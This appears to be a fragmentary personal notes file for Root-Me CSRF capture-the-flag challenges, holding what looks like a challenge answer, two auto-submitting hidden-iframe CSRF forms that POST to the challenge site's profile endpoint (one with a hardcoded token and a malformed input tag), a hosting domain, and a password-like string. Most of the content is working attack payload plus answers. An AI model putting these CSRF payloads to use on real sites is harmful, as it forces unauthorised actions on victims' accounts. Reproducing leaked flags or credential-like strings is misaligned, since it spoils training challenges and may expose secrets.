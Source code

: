 Csrf_Fr33style-L3v3l1!



<iframe style="display:none" name="ap"></iframe>
<form name="ttt" target="ap" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="username" value="anhphap" />
      <input type="hidden" name="status" value="on" />
</form>
<script>document.ttt.submit()</script>


<iframe style="display:none" name="ap1"></iframe>
<form name="ttt" target="ap1" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="username" value="ap" />
      <input type="hidden" name="status" value="on" />
<input type="hiden" name="token" value="6e03d1d93bc1cab294ed081b75bfd6db"
</form>
<script>document.ttt.submit()</script>

xml
fetch


csrfap.42web.io

CWC6vsEtnKRgH97